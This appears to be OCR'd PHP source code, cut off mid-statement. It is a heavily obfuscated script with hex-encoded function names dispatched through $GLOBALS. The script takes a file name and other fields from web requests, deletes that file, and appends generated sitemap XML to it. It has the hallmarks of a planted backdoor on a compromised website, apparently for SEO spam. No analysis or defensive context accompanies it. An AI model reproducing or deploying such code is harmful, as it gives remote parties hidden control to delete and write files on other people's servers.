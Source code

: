 $O00O_0_OO_;');$OO00_OO__0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x30\x4f\x5f\x4f\x4f\x5f\x5f"]('$OOO0__00O_','$O000___OOO=isset($_REQUEST["\x4f\x30\x4f\x5f\x5f\x4f\x4f\x30\x30\x5f"])?$_REQUEST["\x4f\x30\x4f\x5f\x5f\x4f\x4f\x30\x30\x5f"]:\'\';$O_OOO00__0=isset($_REQUEST["\x66\x69\x6c\x65\x6e\x61\x6d\x65"])?$_REQUEST["\x66\x69\x6c\x65\x6e\x61\x6d\x65"]:\'\';$O0__O0O0O_=isset($_REQUEST["\x6c\x61\x73\x74\x6d\x6f\x64\x73"])?$_REQUEST["\x6c\x61\x73\x74\x6d\x6f\x64\x73"]:\'\';$O_0O0_O_O0=isset($_REQUEST["\x63\x68\x61\x6e\x67\x65\x66\x72\x65\x71\x73"])?$_REQUEST["\x63\x68\x61\x6e\x67\x65\x66\x72\x65\x71\x73"]:\'\';$O0O0__0O_O=isset($_REQUEST["\x70\x72\x69\x6f\x72\x69\x74\x79"])?$_REQUEST["\x70\x72\x69\x6f\x72\x69\x74\x79"]:\'\';$OO0O_0_0O_=isset($_REQUEST["\x6d\x75\x6c\x74\x69\x70\x6c\x65"])?$_REQUEST["\x6d\x75\x6c\x74\x69\x70\x6c\x65"]:\'\';$OO_0_0OO_0=isset($_REQUEST["\x4f\x4f\x4f\x30\x5f\x5f\x30\x30\x4f\x5f"])?$_REQUEST["\x4f\x4f\x4f\x30\x5f\x5f\x30\x30\x4f\x5f"]:\'\';if($OO_0_0OO_0==\'\'){$OO_0_0OO_0=$OOO0__00O_;}$OO_0O_0O_0=isset($_REQUEST["\x73\x6e\x61\x6d\x65"])?$_REQUEST["\x73\x6e\x61\x6d\x65"]:\'\';$OO_O00__O0=isset($_REQUEST["\x6e\x75\x6d\x62\x65\x72\x73"])?$_REQUEST["\x6e\x75\x6d\x62\x65\x72\x73"]:\'\';$O00__OOO0_=isset($_REQUEST["\x66\x6f\x6c\x64\x65\x72"])?$_REQUEST["\x66\x6f\x6c\x64\x65\x72"]:\'\';$OOOO0__00_=isset($_REQUEST["\x68\x74\x6d\x6c"])?$_REQUEST["\x68\x74\x6d\x6c"]:\'\';echo $O000___OOO;if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x5f\x5f\x4f\x30\x30\x30\x5f\x4f"]($O_OOO00__0)){if(!${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x5f\x5f\x4f\x30\x30\x4f\x5f"]($O_OOO00__0)){echo "deleteerror";exit();}}$O_0_0_OOO0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f"](\'|\',$OO_O00__O0);$OO0_0_OO0_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f"](\'|\',$OO0O_0_0O_);$OO_O_0O0_0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f"](\'|\',$O00__OOO0_);if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x30\x30\x5f\x4f\x4f\x5f\x4f"]($O_0_0_OOO0)>0){$O__OO_0O00="<?phpxml version=\\"1.0\\" encoding=\\"UTF-8\\"".PHP_EOL;$O__OO_0O00 .="	<urlset xmlns=\\"http://www.sitemaps.org/schemas/sitemap/0.9\\">".PHP_EOL;${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x4f\x5f\x5f\x30\x5f\x30\x4f\x30"]($O_OOO00__0,$O__OO_0O00,FILE_APPEND);for($OO_O0_0_O0=0;$OO_O0_0_O0<${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x30\x30\x5f\x4f\x4f\x5f\x4f"]($O_0_0_OOO0);$OO_O0_0_O0++){$O00__OO_0O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f"](\'_\',$O_0_0_OOO0[$OO_O0_0_O0]);if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x30\x30\x5f\x4f\x4f\x5f\x4f"]($O00__OO_0O)==2){$O00__O_OO0=$O00__OO_0O[0];$OO0_0_O0_O=$O00__OO_0O[1];$OO0O_0_0O_=$OO0O_0_0O_+$O00__O_OO0;if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x30\x30\x5f\x4f\x4f\x5f\x4f"]($OO0_0_OO0_)>1){$O__00OOO0_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x5f\x4f\x30\x5f\x4f\x4f\x30"](0,${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x30\x30\x5f\x4f\x4f\x5f\x4f"]($OO0_0_OO0_)-1);}else{$O__00OOO0_=0;}if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x30\x30\x5f\x4f\x4f\x5f\x4f"]($OO_O_0O0_0)>$O00__O_OO0){$O_0O_O00_O=$O00__O_OO0;}else if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x30\x30\x5f\x4f\x4f\x5f\x4f"]($OO_O_0O0_0)>1){$O_0O_O00_O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x5f\x4f\x30\x5f\x4f\x4f\x30"](0,$